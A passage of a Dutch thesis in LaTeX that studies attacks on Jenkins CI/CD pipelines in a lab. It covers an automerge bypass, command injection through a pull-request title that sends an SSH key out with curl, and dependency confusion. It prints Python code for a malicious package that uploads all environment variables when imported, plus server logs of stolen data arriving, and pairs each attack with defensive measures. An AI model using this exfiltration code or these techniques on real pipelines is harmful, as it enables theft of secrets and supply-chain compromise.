  
\includegraphics[scale=0.60]{graphics/curlsuccesat1.png}
\caption{\label{fig:webserverat1} Output wanneer de aanvaller gebruik maakte van een webserver.}
\end{figure}
\clearpage

Wanneer de omgevingsvariabelen bij de aanvaller aankomen, hoeft hij alleen maar de base-64-data te decoderen om toegang te krijgen tot de geheime informatie. De decodering wordt uitgevoerd met behulp van dezelfde base-64-tool die werd gebruikt om te encoderen. 
\newline

Hieronder worden de loggegevens van een Python-webserver getoond, deze illustreren hoe de aanvaller de data ontvangt bij het gebruik van een externe server.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
89.248.168.36 - - [11/May/2023 19:49:57] "GET / HTTP/1.0" 200 -
\end{lstlisting}

\subsubsection{\IfLanguageName{dutch}{Problemen met de pipeline configuratie}
{Issues with the pipeline configuration}}
\label{sec:Problemen met de pipeline configuratie}

\begin{itemize}
  \item Iedereen kan PR's aanmaken voor de gedeelde Groovy library. De repository is publiek.
  \item Er is geen manuele controle nadat iemand een PR gestuurd heeft.
  \item PR's vanaf forked repositories zijn toegelaten.
  \item Belangrijke informatie is beschikbaar als omgevingsvariabelen.
  \item De machine waarop de pipeline uitgevoerd wordt, laat connecties naar buiten toe.
\end{itemize}

\subsubsection{\IfLanguageName{dutch}{Hoe deze aanval te voorkomen}
{Preventive measures against this attack}}
\label{sec:Hoe deze aanval te voorkomen}

\begin{itemize}
  \item PR's moeten manueel gecontroleerd worden indien mogelijk. Als handmatige controle geen optie is, moeten er filters voorzien worden zodat enkel PR's die aan bepaalde voorwaarden voldoen toegelaten worden.
  \begin{itemize}
    \item Er is gefilterd op bestandstype of extensie zodat enkel wijzigingen in relevante bestanden goedgekeurd woorden.
    \item Er zijn verschillende automatisch scans uitgevoerd om beveiligingsproblemen en kwetsbaarheden op te sporen.
    \item Enkel PR's van vertrouwde systemen worden toegelaten. 
  \end{itemize}
  \item Alle repsitories die gebruikt worden voor andere pipelines als dependencies moeten beveiligd worden.
  \item Om secrets te beschermen in de pipeline moet de Jenkins documentatie gevolgd worden.
  \item De runners waar de pipeline wordt uitgevoerd, moeten geconfigureerd worden zodat er enkle minimaal toegang mogelijk is tot en vanaf de machine.
  \item Zorg ervoor dat de pipelinebestanden worden gecontroleerd voordat de pipeline wordt uitgevoerd.
  \item Zorg voor geïsoleerde nodes om niet-gecontroleerde code uit te voeren.
\end{itemize}

\subsection{\IfLanguageName{dutch}{Automerge bypass aanval}
{Automerge bypass attack}}
\label{sec:Automerge bypass aanval}

De pipeline voor de volgende aanval is geconfigureerd zodat bij iedere bouwopdracht de main branch gebouwd wordt. Wanneer aan een aantal condities voldaan is, wordt de PR gemerged met de main branch door middel van een REST call naar de github API. Ook hier wordt de pipeline geconfigureed als een multibranch pipeline. Er wordt gebruik gemaakt van de plugin remote jenkins file provider. Dankzij deze plugin is het mogelijk de jenkinsfile vast te zetten voor een bepaalde branch. Door op die manier te werk te gaan, wordt telkens enkel het jenkins bestand in de main branch gebouwd en wordt er geen rekening gehouden met andere jenkins bestanden. De volledige opstelling is te zien in figuur \ref{fig:automerge}
\newline

De configuratie van de pipeline voor de aanval zorgt ervoor dat bij elke bouwopdracht de main branch wordt gebouwd. Als aan bepaalde voorwaarden is voldaan, wordt de PR samengevoegd met de main branch via een REST call naar de GitHub API. Deze pipeline is geconfigureerd als een multibranch-pipeline en maakt gebruik van de plugin "remote Jenkins file provider". Met behulp van deze plugin kan het Jenkins-pipeline bestand worden vastgezet voor een specifieke branch. Op deze manier wordt alleen het Jenkins-pipeline bestand in de main branch gebouwd en wordt er geen rekening gehouden met andere Jenkins-pipeline bestanden.
\newline

Een PR wordt enkel gemerged wanneer een aantal voorwaarden voldaan zijn. Deze voorwaarden bevatten logica die gemakkelijk omzeild kan worden. Aan volgende voorwaarden moeten worden voldaan om de PR te kunnen mergen met de main branch.

\begin{itemize}
  \item Het aantal verwijderde en toegevoegde woorden wordt gecontroleerd. De totale waarde van deze twee parameters moet nul zijn. Er mogen dus geen woorden worden verwijderd of toegevoegd.
  \item Het versiebestand wordt gecontroleerd. Het versiebestand moet in een specifiek formaat blijven en de bestandsnaam mag niet gewijzigd zijn.
\end{itemize}

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/attack2.png}
\caption{\label{fig:automerge} Automerge bypass aanval overzicht.}
\end{figure}

De aanval start met het verkennen van de omgeving. Er wordt geprobeerd om net zoals bij de eerste aanval omgevingsvariabelen uit te lezen via een PR. Deze actie lukt immers niet, want enkel de main branch wordt gebouwd. Omdat de aanvaller toegang heeft tot het pipeline bestand, kan hij snel de logica achterhalen die gebruikt wordt voor het samenvoegen van een PR. In de logica wordt gebruik gemaakt van het git diff commando. Dit commando vergelijkt wat er veranderd is voor en na een PR of een git push.
\newline

Om de merge logica te omzeilen, zal de aanvaller volgende acties ondernemen:

\begin{enumerate}
  \item Hij voegt zijn commando toe om de environment variabelen en dus secrets te extraheren.
  \item Hij verwijdert hetzelfde aantal woorden ergens anders in de repository en de eerste controle is omzeild.
  \item De threat actor past de inhoud aan van het versie bestand. Hij voert dus een versie bump uit van bijvoorbeeld 1.1.1 naar 1.1.2
\end{enumerate}
\clearpage

Op deze manier worden alle controles omzeild. De aanvaller maakt vervolgens een PR en de code wordt gemerged met de main branch. Doordat een merge ook een bouwopdracht start, wordt de kwaadaardige code uitgevoerd en kan de aanvaller net zoals bij het vorige voorbeeld de geheime informatie extraheren en gebruiken om zijn aanval verder te escaleren. Als de aanvaller niet beschikt over rechten om de logs te bekijken, zal hij een server hebben waar hij de omgevingvariabelen ontvangt.
\newline

Figuur \ref{fig:mergesuc} en \ref{fig:mergit} toont een succesvolle poging van de aanvaller. De controles zijn omzeild en een merge is uitgevoerd door gebruik te maken van de GitHub API.

\begin{figure}[H]
  
\includegraphics[scale=0.50]{graphics/mergesucces.png}
\caption{\label{fig:mergesuc} Pipeline logs na een succesvole merge.}
\end{figure}

\begin{figure}[H]
  \includegraphics[scale=0.52]{graphics/mergedGitHub.png}
\caption{\label{fig:mergit} GitHub merge bericht.}
\end{figure}

Het Jenkins-pipeline bestand dat gebruikt is voor deze aanval, is in de bijlagen in hoofdstuk \ref{sec:Automerge aanval} te vinden.

\subsubsection{\IfLanguageName{dutch}{Problemen met de pipeline configuratie}
{Issues with the pipeline configuration}}
\label{sec:Problemen met de pipeline configuratie}

\begin{itemize}  
  \item Iedereen kan PR's maken voor de gedeelde Groovy library. De repository is public.
  \item Automerge is ingebouwd in de pipeline.
  \item De automerge logica kan eenvoudig omzeild worden.
  \item Belangrijke informatie is beschikbaar als omgevingsvariabelen.
  \item De machine waarop de pipeline uitgevoerd wordt, laat connecties naar buiten toe.
\end{itemize}

\subsubsection{\IfLanguageName{dutch}{Hoe deze aanval te voorkomen}
{Preventive measures against this attack}}
\label{sec:Hoe deze aanval te voorkomen}

\begin{itemize}
  \item Maak nooit gebruik van automerge. Als automerge toch gebruikt moet worden, maak de logica dan foolproof, zodat deze niet omzeild kan worden.
  \item PR's moeten manueel gecontroleerd worden indien mogelijk. Als handmatige controle geen optie is, moeten er filters voorzien worden zodat enkel PR's die aan bepaalde voorwaarden voldoen toegelaten worden.
  \begin{itemize}
    \item Er is gefilterd op bestandstype of extensie zodat enkel wijzigingen in relevante bestanden goedgekeurd woorden.
    \item Er zijn verschillende automatisch scans uitgevoerd om beveiligingsproblemen en kwetsbaarheden op te sporen.
    \item Enkel PR's van vertrouwde systemen worden toegelaten.
  \end{itemize}
  \item De runners waar de pipeline wordt uitgevoerd, moeten geconfigureerd worden zodat er enkel minimaal toegang mogelijk is tot en vanaf de machine.
  \item Probeer de toegang tot secrets zoveel mogelijk te beperken en zorg ervoor dat deze niet zomaar ingelezen kunnen worden in de pipeline.
  \begin{itemize}
    \item Maak gebruik van secret beheer tools zoals bijvoorbeeld AWS secrets manager die gebruikt is in deze scriptie.
    \item Beperk de toegang de de secrets, verleen alleen de noodzakelijke toegangsrechten aan personen of systemen die de secrets nodig hebben.
    \item Gebruik RBAC om toegang tot de secrets te verlenen.
    \item Encrypteerd omgevingsvariabelen in plaats van deze gevoelige informatie rechtstreeks te gebruiken in de pipeline. 
  \end{itemize}
  \item Zorg ervoor dat de pipelinebestanden worden gecontroleerd voordat de pipeline wordt uitgevoerd.
  \item Zorg voor geïsoleerde nodes om niet-gecontroleerde code uit te voeren.
\end{itemize}

\subsection{\IfLanguageName{dutch}{Third-party aanval}
{Third-party aanval}}
\label{sec:}

De derde pipeline maakt gebruik van een shell script in één van de bouwstappen. Het shell script dat gebruikt wordt in deze pipeline wordt gebouwd aan de hand van een tweede pipeline. In deze tweede pipeline wordt een Python applicatie gebouwd en wordt een shell script uitgerold naar een hosting server. Beide pipelines zijn geconfigureerd als multibranch pipelines, maar de eerste pipeline kan niet zomaar een bouwopdracht starten wanneer een PR gestuurd wordt. Deze aanval wordt geïllustreerd aan de hand van figuur \ref{fig:thirdparty}.
\newline

De aanval op deze omgeving kan worden beschouwd als een vorm van een supply chain-aanval, waarbij de supply chain van de eerste pipeline wordt aangevallen, met als gevolg de verstoring van de eerste pipeline.
\newline

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/attack3.png}
\caption{\label{fig:thirdparty} Third-party aanval overzicht.}
\end{figure}

De aanvaller onderzoekt eerst de eerste pipeline, maar al snel wordt duidelijk dat er weinig mogelijkheden zijn om met deze pipeline iets te doen. Vervolgens bemerkt hij dat er een shell-script wordt gebruikt in een van de bouwstappen. Na verdere inspectie ontdekt de aanvaller een andere pipeline die het shell-script genereert. Deze pipeline staat open voor pull-requests en kan mogelijk worden misbruikt.
\clearpage

Er valt op te merken dat er een omgevings variabele wordt gebruikt om de titel van de pull-request door te geven aan de maintainer. Deze titel wordt gebruikt als een bash-variabele en is daarom vatbaar voor commandosubstitutie. De aanvaller merkt op dat er een privésleutel wordt gebruikt voor het "scp"-commando in de deployfase. Deze sleutel wordt gedefinieerd als een variabele in de pipeline en kan mogelijk worden uitgelezen. Hij maakt een nieuwe titel aan die deze sleutel naar hem zal doorsturen. De titel in Figuur \ref{fig:pullrequestit} wordt gebruikt om de sleutel te ontvangen. Figuur \ref{fig:3aanval} laat zien hoe het "curl"-commando wordt uitgevoerd en de sleutel dus naar de aanvaller wordt doorgestuurd.
\newline

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/pullrequesttitle.png}
\caption{\label{fig:pullrequestit} PR-titel die gebruikt wordt.}
\end{figure}

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/3thattacksucces.png}
\caption{\label{fig:3aanval} Pipeline logs voor de third-party aanval.}
\end{figure}

Figuur \ref{fig:3a} toont de output logs van de webserver die in het bezit is van de aanvaller. Zoals te zien is ontvangt hij het key bestand na het manipuleren van de titel.

\begin{figure}[H]
  \begin{lstlisting}[language=bash, style=bashstyle]
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    192.168.19.40 - - [12/May/2023 10:15:22] [Uploaded] "key" --> /home/ubuntu/key
    192.168.19.40 - - [12/May/2023 10:15:22] "POST /upload HTTP/1.1" 204 -
  \end{lstlisting}
\caption{\label{fig:3a} Aanvaller ontvangt de private key.}
\end{figure}
\clearpage

De aanvaller is in bezit van de ssh key en kan nu zelf een kwaadaardige code uploaden naar de webserver. Onderstaande output van het scp commando toont een succesvolle upload.
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
  Warning: Permanently added '192.168.23.13' (ED25519) to the list of known hosts.
  reportcov.sh
  100%   32    39.3KB/s   00:00   
\end{lstlisting}
\vspace{0.5cm}

\subsubsection{\IfLanguageName{dutch}{Problemen met de pipeline configuratie}
{Issues with the pipeline configuration}}
\label{sec:Problemen met de pipeline configuratie}

\begin{itemize}
  \item Iedereen kan PR's maken voor de gedeelde Groovy library. De repository is public.
  \item De Python-pipeline is kwetsbaar voor command injectie.
  \item De Python-pipeline maakt gebruik van de gebruikers input om shell variabelen in te stellen.
  \item Belangrijke informatie is beschikbaar als omgevingsvariabelen.
  \item De machine waarop de pipeline uitgevoerd wordt, laat connecties naar buiten toe.
  \item Er is geen integriteits controle van de artifacten die gebruikt wordt in de Java-pipeline.
  \item Er is geen goedkeuringsproces voor het uitvoeren van het third party artifact in de Java-pipeline.
\end{itemize}

\subsubsection{\IfLanguageName{dutch}{Hoe deze aanval te voorkomen}
{Preventive measures against this attack}}
\label{sec:Hoe deze aanval te voorkomen}

\begin{itemize}
  \item Laat de pipeline niet afhankelijk zijn van gebruikers input voor het definieren van shell commando's.
  \item PR's moeten manueel gecontroleerd worden indien mogelijk. Als handmatige controle geen optie is, moeten er filters voorzien worden zodat enkel PR's die aan bepaalde voorwaarden voldoen toegelaten worden.
  \begin{itemize}
    \item Er is gefilterd op bestandstype of extensie zodat enkel wijzigingen in relevante bestanden goedgekeurd woorden.
    \item Enkel PR die de PR-template volgen worden goedgekeurd.
    \item Er zijn verschillende automatisch scans uitgevoerd om beveiligingsproblemen en kwetsbaarheden op te sporen.
    \item Enkel PR's van vertrouwde systemen worden toegelaten.
  \end{itemize}
  \item De runners waar de pipeline wordt uitgevoerd, moeten geconfigureerd worden zodat er enkel minimaal toegang mogelijk is tot en vanaf de machine.
  \item Probeer de toegang tot secrets zoveel mogelijk te beperken en zorg ervoor dat deze niet zomaar ingelezen kunnen worden in de pipeline.
  \begin{itemize}
    \item Maak gebruik van secret beheer tools zoals bijvoorbeeld AWS secrets manager die gebruikt is in deze scriptie.
    \item Beperk de toegang de de secrets, verleen alleen de noodzakelijke toegangsrechten aan personen of systemen die de secrets nodig hebben.
    \item Gebruik RBAC om toegang tot de secrets te verlenen.
    \item Encrypteerd omgevingsvariabelen in plaats van deze gevoelige informatie rechtstreeks te gebruiken in de pipeline.
  \end{itemize}
  \item Zorg ervoor dat de pipelinebestanden worden gecontroleerd voordat de pipeline wordt uitgevoerd.
  \item Zorg voor geïsoleerde nodes om niet-gecontroleerde code uit te voeren.
  \item Zorg ervoor dat third-party artefacten goedgekeurd worden en dat er ten minstens een integriteits controle is wanneer gebruik wordt gemaakt van een third-party elementen in de pipeline.
\end{itemize}

\subsection{\IfLanguageName{dutch}{Python dependency confusion aanval}
{Python dependency confusion attack}}
\label{sec:Python dependency confusion aanval}

Voor de laatste aanval wordt dezelfde configuratie gebruikt als bij de third-party aanval. Met andere woorden, het betreft opnieuw een multibranch-pipeline, waarin één pipeline het shell-script opbouwt en een andere pipeline dit shell-script gebruikt. De opstelling voor deze aanval is te zien in figuur \ref{fig:pythonaanval}
\newline

Deze laatste aanval vindt plaats binnen de context van de Python-pipeline. De Python-applicatie maakt gebruik van specifieke Python-bibliotheken, ook wel dependencies genoemd. Deze dependencies worden geconfigureerd in een bestand genaamd \textit{requirements.txt}. In het geval van private dependencies worden deze ook in dit bestand geconfigureerd. Deze dependencies worden niet opgehaald van de officiële Python Package Index. Als de configuratie van deze dependencies in het requirements.txt-bestand niet correct is, kunnen ze kwetsbaar zijn voor aanvallen.
\newline

\begin{figure}[H]
  
\includegraphics[scale=0.35]{graphics/attack4.png}
\caption{\label{fig:pythonaanval} Python dependency confusion aanval overzicht.}
\end{figure}

De aanval begint met een verkenningsfase, waarbij de aanvaller specifiek zoekt naar \textit{requirements.txt} bestanden via Google dorking en Github dorking. Zodra mogelijke kwetsbare bestanden zijn gevonden, controleert de aanvaller of er private dependencies worden gebruikt. Met behulp van de confused tool kan de aanvaller potentiële doelwitten identificeren. Daarna onderzoekt hij of deze dependencies incorrect zijn geconfigureerd. Een dependency is kwetbsaar wanneer deze geconfigureerd is om altijd de nieuwste versie te downloaden.
\newline

Vervolgens begint de aanvaller met het creëren van een kwaadaardige Python-dependency in de volgende fase. Deze dependency zal dezelfde naam hebben als het gevonden private dependency, maar zal een nieuwere versie hebben. Door deze nieuwe versie wordt ervoor gezorgd dat de Python-dependency van de aanvaller altijd wordt gedownload in plaats van de lokale package.
\newline

De code die de aanvaller schrijft, zorgt ervoor dat de systeemomgevingsvariabelen naar de aanvaller worden doorgestuurd via een willekeurige bestandsnaam. Door de code toe te voegen aan het \textit{init.py}-bestand wordt de code automatisch uitgevoerd wanneer de dependency wordt geïmporteerd. De code op de volgende pagina toont wat voor code gebruikt wordt voor de kwaadaardige dependency.
\clearpage

\begin{lstlisting}[style=python]
  # testpackageBP.py
  import os
  import requests
  import tempfile
  
  def test():
      with tempfile.NamedTemporaryFile(mode='w', delete=False) as f:
          for key, value in os.environ.items():
              f.write(f"{key}: {value}\n")
          output_file = f.name
      f.close()
  
      url = "http://localhost:3030/upload"
      files = {"files": (output_file, open(output_file, "rb"))}
      response = requests.post(url, files=files)
  
  
  
  test()
  
  #__init__.py
  from .testpackageBP import test

  test  
\end{lstlisting}

\vspace{0.5cm}
Wanneer een developer de pipeline uitvoert zal de kwaadaardige dependency gedownload worden. Op dat moment hoeft de aanvaller alleen maar te wachten tot de applicatie wordt gebruikt. Zodra dit gebeurt, krijgt de aanvaller toegang tot de omgevingsvariabelen en de bijbehorende geheime informatie. Figuur \ref{fig:3thattack} toont de logs van de pipeline wanneer de aanval succesvol is. Figuur \ref{fig:4thattack} toont hoe de aanvaller de omgevingsvariabelen ontvangt op zijn server.
\newline

\begin{figure}[H]
